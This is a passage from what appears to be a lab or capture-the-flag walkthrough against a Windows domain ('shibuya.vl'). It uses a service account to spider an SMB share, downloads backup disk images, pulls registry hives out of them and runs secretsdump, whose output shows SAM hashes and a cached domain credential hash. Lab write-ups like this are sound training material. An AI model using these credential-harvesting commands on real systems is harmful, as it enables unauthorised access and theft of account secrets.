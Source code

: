 We have new share `images$` that we can read. It contains backup images
```
└─$ nxc smb 10.10.112.188 -u svc_autojoin -p '<REDACTED>' --spider 'images$' --regex .             
SMB         10.10.112.188   445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.112.188   445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:<REDACTED> 
SMB         10.10.112.188   445    AWSJPDC0522      [*] Started spidering
SMB         10.10.112.188   445    AWSJPDC0522      [*] Spidering .
SMB         10.10.112.188   445    AWSJPDC0522      //10.10.112.188/images$/. [dir]
SMB         10.10.112.188   445    AWSJPDC0522      //10.10.112.188/images$/.. [dir]
SMB         10.10.112.188   445    AWSJPDC0522      //10.10.112.188/images$/AWSJPWK0222-01.wim [lastm:'2025-02-19 23:35' size:8264070]
SMB         10.10.112.188   445    AWSJPDC0522      //10.10.112.188/images$/AWSJPWK0222-02.wim [lastm:'2025-02-19 23:35' size:50660968]
SMB         10.10.112.188   445    AWSJPDC0522      //10.10.112.188/images$/AWSJPWK0222-03.wim [lastm:'2025-02-19 23:35' size:32065850]
SMB         10.10.112.188   445    AWSJPDC0522      //10.10.112.188/images$/vss-meta.cab [lastm:'2025-02-19 23:35' size:365686]
SMB         10.10.112.188   445    AWSJPDC0522      [*] Done spidering (Completed in 0.5761630535125732)

```

Let's download files
```
└─$ smbclient.py shibuya.vl/svc_autojoin:'<REDACTED>'@AWSJPDC0522.shibuya.vl -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
Type help for list of commands
# use images$
# ls
drw-rw-rw-          0  Wed Feb 19 23:35:20 2025 .
drw-rw-rw-          0  Wed Feb 19 18:59:37 2025 ..
-rw-rw-rw-    8264070  Wed Feb 19 23:35:20 2025 AWSJPWK0222-01.wim
-rw-rw-rw-   50660968  Wed Feb 19 23:35:20 2025 AWSJPWK0222-02.wim
-rw-rw-rw-   32065850  Wed Feb 19 23:35:20 2025 AWSJPWK0222-03.wim
-rw-rw-rw-     365686  Wed Feb 19 23:35:20 2025 vss-meta.cab
# get vss-meta.cab
# get AWSJPWK0222-03.wim
# get AWSJPWK0222-02.wim
# get AWSJPWK0222-01.wim
```

We can use [PowerISO](https://www.poweriso.com/) to read the images. Inside `AWSJPWK0222-02.wim` we find registry files. So let's dump them

![](1.png)

Now, we can either use `secretsdump` or [pypykatz](https://github.com/skelsec/pypykatz)
```
└─$ secretsdump.py -sam SAM -system SYSTEM -security SECURITY local  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x2e971736685fc53bfd5106d471e2f00f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9dc1b36c1e31da7926d77ba67c654ae6:::
operator:1000:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
[*] Dumping cached domain logon information (domain/username:hash)
SHIBUYA.VL/Simon.Watson:$DCC2$10240#Simon.Watson#04b20c71b23baf7a3025f40b3409e325: (2025-02-16 11:17:56)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
```